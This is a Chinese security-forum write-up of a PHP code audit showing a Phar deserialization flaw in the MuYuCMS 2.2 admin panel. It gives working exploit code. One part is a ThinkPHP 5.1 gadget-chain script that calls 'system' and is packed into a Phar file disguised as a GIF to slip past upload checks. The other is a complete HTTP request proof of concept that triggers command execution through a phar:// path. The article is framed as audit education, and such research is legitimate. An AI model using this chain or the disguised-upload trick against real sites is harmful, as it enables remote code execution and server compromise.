







# 奇安信攻防社区-【PHP代码审计】站点中的Phar反序列化漏洞

### 【PHP代码审计】站点中的Phar反序列化漏洞

Unserialize函数的使用很少见，而Session反序列化可控条件又比较苛刻。这次就和大家分享最后一种Phar伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

# 【PHP代码审计】站点中的Phar反序列化漏洞

## 前言

PHP反序列化漏洞，如果按照反序列化入口区分，可以分为三类：

-   调用Unserialize函数进行反序列化
-   利用Session处理中进行的反序列化操作
-   通过Phar伪协议进行反序列化

Unserialize函数的使用很少见，而Session反序列化可控条件又比较苛刻。这次就和大家分享最后一种Phar伪协议反序列化漏洞案例作为学习，祝师傅们以后审计时多多出洞。

## 了解Phar

可以认为Phar是PHP的压缩文档。从`PHP 5.3`开始，引入了类似于JAR的一种打包文件机制。它可以把多个文件存放至同一个文件中，无需解压，PHP就可以进行访问并执行内部语句。  
关于Phar文件结构等其他前置知识就不重点展开，感兴趣的师傅可以参考文章：\[phar反序列化学习笔记\]([https://pankas.top/2022/04/28/](https://pankas.top/2022/04/28/) phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

## 反序列化触发方式

Phar之所以能触发反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`。而PHP在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。因此，可以代替`unserialize`函数作为反序列化漏洞的入口。  
常见的可以触发Phar反序列化的PHP文件系统函数如下：  
  
当PHP文件系统函数中的传递文件地址的参数可控时，构造合适的利用链，就能无需`unserialize`函数，进行反序列化命令执行。

## 生成Phar文件的tips

PHP在识别Phar文件时，是通过其文件头部标识`__HALT_COMPILER();?>`，并且对头部标识前面的内容或后缀名没有严格要求的。  
因此可以通过添加任意的文件头并修改Phar文件后缀名的方式，将Phar文件伪装成其他格式的文件，从而绕过上传点限制。

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
```

## 案例漏洞分析

在[MuYuCMS2.2](https://github.com/MuYuCMS/MuYuCMS)中存在后台的Phar反序列化漏洞

### 寻找触发点

\*\*Phar反序列化触发点寻找目标：\*\*找到一个参数可控的受影响的文件系统函数。  
以`is_dir`函数为例，其他受影响的文件系统函数原理相同，就不一一列举。  
使用全局文件搜索功能搜索`is_dir`函数，最终在Template.php中发现疑似存在参数可控的情况。  
  
搜索关键字`cutformadd`寻找方法的触发位置，找到html模板中存在`admin/Template/cutformadd`的路径。  
  
因此，猜测Template.php功能就是调用模板html并在浏览器访问时渲染出来。看了一下该模板html内容，发现是在`管理自定义页面`的功能中。火速登录后台找到该位置，提交数据并抓包验证。  
  
成功触发该方法，并且可以看到path确实可控无过滤。  
  
可是光有反序列化触发点还是无法证明存在反序列化漏洞，还需要配合利用链才完整。奈何实力不允许，无法手搓链子，只能找找现成的。

### 寻找利用链

[MuYuCMS源码](https://github.com/MuYuCMS/MuYuCMS)中描述：MuYuCMS基于ThinkPHP5.1开发的一套轻量级开源内容管理系统。  
  
社区中正好看到有关于这个版本链子分析：[ThinkPHP5.1反序列化漏洞实现rce](https://forum.butian.net/share/2307)  
阅读后，收获蛮多，感兴趣的师傅可以研读一下。  
这里就只用站在巨人的肩膀上，小小改动一下文章中的exp。在链子中加入一个主命名空间，并在其中添加生成Phar文件的代码，`TestObject`需要替换成链子中的入口类`Windows`

```php
<?php
namespace think{
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["l1_Tuer"=>["123"]];
            $this->data = ["l1_Tuer"=>new Request()];
        }
    }

    class Request{
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            'var_ajax'         => '_ajax',  
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
}

namespace think\process\pipes{
    use think\model\concern\Conversion;
    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct(){
            $this->files=[new Pivot()];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    use think\process\pipes\Windows;
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new Windows();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo (base64_encode(serialize(new Windows())));
}
?>
```

引用文章中的分析：`$this->$config = ['var_ajax'=>'',];`如果设置为空，那我们get传入的变量名可以为任意值。但是定义了之后，get传入的变量名就只能是我们定义的变量名。比如使用`$this->$config = ['var_ajax'=>'cmd',];`，则get需要传递`cmd=xxxx`。

在生成Phar文件前需要**将php.ini中的 phar.readonly选项设置为Off**，否则无法生成phar文件。  
  
配置好php.ini后，在cmd中用命令执行上面的poc.php就行了。

> php.exe poc.php

  
修改文件后缀名  


### 触发反序列化漏洞

登录后台，找任意的图片上传点，上传图片，记录返回的文件路径（后台中提供的文件上传位置很多，这里仅举例其中之一）。  
  
构造漏洞数据包，给path参数赋值为上传的Phar文件的相对路径，添加Phar伪协议头。`path=phar://./public/upload/images/65564c2937556.jpg` ，使用get传递`cmd=xxxx`。  


poc:

```php
POST /admin.php/template/cutformadd?cmd=type%20c:\\windows\win.ini HTTP/1.1
Host: my.localhost:83
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=c570jgocjo468i6pvk3ivgicm2; first=1700160858
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 160

finame=%E8%BF%99%E6%98%AF%E4%B8%80%E4%B8%AA%E6%B5%8B%E8%AF%95&fielname=gywm.html&path=phar://./public/upload/images/65564c2937556.jpg&content=666
```

## 总结

分享完毕，师傅们在白盒挖掘漏洞时，如果遇到实在无法绕过的受限上传点，不妨试试换个思路挖掘Phar反序列化漏洞。  
受影响的文件系统函数一般还是很容易找到的，存在的难点可能就是找到合适的利用链。当站点使用的常见框架，可以试试公开的利用链；对于未使用框架的站点，实力允许的师傅可以手搓链子来利用。
